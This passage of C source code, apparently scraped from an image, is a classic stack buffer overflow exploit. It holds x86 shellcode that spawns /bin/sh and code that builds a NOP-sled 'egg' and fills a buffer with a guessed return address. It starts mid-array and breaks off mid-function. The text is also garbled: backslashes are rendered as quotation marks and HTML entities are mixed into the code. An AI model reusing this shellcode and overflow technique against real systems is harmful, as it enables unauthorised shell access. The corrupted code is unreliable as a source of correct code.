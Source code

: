 &nbsp;&nbsp;""xeb"x1f"x5e"x89"x76"x08"x31"xc0"x88"x46"x07"x89"x46"x0c"xb0"x0b"

&nbsp;&nbsp;""x89"xf3"x8d"x4e"x08"x8d"x56"x0c"xcd"x80"x31"xdb"x89"xd8"x40"xcd"

&nbsp;&nbsp;""x80"xe8"xdc"xff"xff"xff/bin/sh";

unsigned long get_esp(void) {

&nbsp; &nbsp;__asm__("movl %esp,%eax");

}

void main(int argc, char *argv[]) {

&nbsp;&nbsp;char *buff, *ptr, *egg;

&nbsp;&nbsp;long *addr_ptr, addr;

&nbsp;&nbsp;int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;

&nbsp;&nbsp;int i, eggsize=DEFAULT_EGG_SIZE;

&nbsp;&nbsp;if (argc &gt; 1) bsize&nbsp; &nbsp;= atoi(argv[1]);

&nbsp;&nbsp;if (argc &gt; 2) offset&nbsp;&nbsp;= atoi(argv[2]);

&nbsp;&nbsp;if (argc &gt; 3) eggsize = atoi(argv[3]);

&nbsp;&nbsp;if (!(buff = malloc(bsize))) {

&nbsp; &nbsp; printf("Can't allocate memory."n");

&nbsp; &nbsp; exit(0);

&nbsp;&nbsp;}

&nbsp;&nbsp;if (!(egg = malloc(eggsize))) {

&nbsp; &nbsp; printf("Can't allocate memory."n");

&nbsp; &nbsp; exit(0);

&nbsp;&nbsp;}

&nbsp;&nbsp;addr = get_esp() - offset;

&nbsp;&nbsp;printf("Using address: 0x%x"n", addr);

&nbsp;&nbsp;ptr = buff;

&nbsp;&nbsp;addr_ptr = (long *) ptr;

&nbsp;&nbsp;for (i = 0; i &lt; bsize; i+=4)

&nbsp; &nbsp; *(addr_ptr++) = addr;

&nbsp;&nbsp;ptr = egg;

&nbsp;&nbsp;for (i = 0; i &lt; eggsize - strlen(shellcode) - 1; i++)

&nbsp; &nbsp; *(ptr++) = NOP;

&nbsp;&nbsp;for (i = 0; i &lt; strlen(shellcode); i++)

&nbsp; &nbsp; *(ptr++) = shellcode[i];
